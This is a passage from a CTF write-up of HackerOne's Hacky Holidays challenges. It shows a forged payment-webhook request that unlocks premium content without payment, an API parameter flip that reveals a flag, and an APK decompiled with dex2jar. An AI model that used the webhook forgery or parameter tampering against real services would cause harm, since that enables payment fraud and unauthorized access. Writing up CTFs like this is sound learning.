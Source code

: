 7) We craft a new request with the `status` set to  `succeeded` as the following, which returns `"message":"Payment Received, account upgraded"`
```http
POST /premium_content/webhook HTTP/1.1
Host: intranet.hackyholidays.h1ctf.com
Cookie: og-token=f5ec3aa88cd9ae173b41614ee3bd7cc8
Content-Length: 421
Origin: https://intranet.hackyholidays.h1ctf.com
Content-Type: application/json

{ "id": "pi_1Dpddo2eZvKYlo2CYgGISnIa",  "object": "payment_intent", "amount": 1999,  "amount_capturable": 0,  "amount_received": 0,  "capture_method": "automatic",  "charges": {    "object": "list",    "data": [],    "has_more": false,    "url": "/v1/charges?payment_intent=pi_1Dpddo2eZvKYlo2CYgGISnIa"  },    "payment_method_types": [    "card"  ],  "receipt_email": "w31rd0@wearehackerone.com",   "status": "succeeded"}
```

![json-body-paid](https://user-images.githubusercontent.com/55701068/151597637-3a138304-e307-489b-80c5-a95194d3e46a.png)


8) We can now login with our account and get the premium grinch pictures along with the flag

![f;ag6](https://user-images.githubusercontent.com/55701068/151597763-55a57f4b-750e-4bd9-a8f0-aceaf58ad307.png)

**DAY 7 -Christmas List Hides a Gift**
--------------------
1) New day, new challenge. Today we need to download an Android named [christmaslist.apk](https://intranet.hackyholidays.h1ctf.com/apk_downloads/christmaslist.apk)
2) We install the .apk on our device and once we open it we see a request being sent to the intranet domain
```http
GET /api/christmasList?flag=false HTTP/1.1
Host: intranet.hackyholidays.h1ctf.com
Accept: application/json, text/plain, */*
Authorization: Bearer MjJlNzA1ZDY4OWZiYzE4MTk5Mjc2NzgwNDU2MGQ0YTYgIC0K
Accept-Encoding: gzip, deflate
User-Agent: okhttp/4.9.1
Connection: close
```
3) So the attack here is simple, change the `flag` parameter to `true` and here is your early Christmas present

![Screenshot from 2021-12-16 22-21-45](https://user-images.githubusercontent.com/55701068/151598016-78dc027a-a34a-4a5d-bcee-95623a2c36e5.png)

The code within the app responsible for this is below

![code-in-ak](https://user-images.githubusercontent.com/55701068/151597876-2f069091-c358-40c8-a32f-4405f9a6b4f0.png)

**DAY 8 - Grinch's Hidden Gifts**
--------------------
1) Day 8 and a new apk file awaits us [2FA App](https://intranet.hackyholidays.h1ctf.com/apk_downloads/grinch2fa.apk)
2) Downloading and installing the app on a device, shows that we need to provide a PIN to gain access to further functionalities.
3) We try to examine the applications code and convert the .apk to jar view the command below
```bash
./d2j-dex2jar.sh ~/Downloads/hackyholidays/grinch2fa.apk -o ~/Desktop/grinch.jar
```
4) We can then open and view the code with JD-Gui and go over the code. We can see a Login activity. 
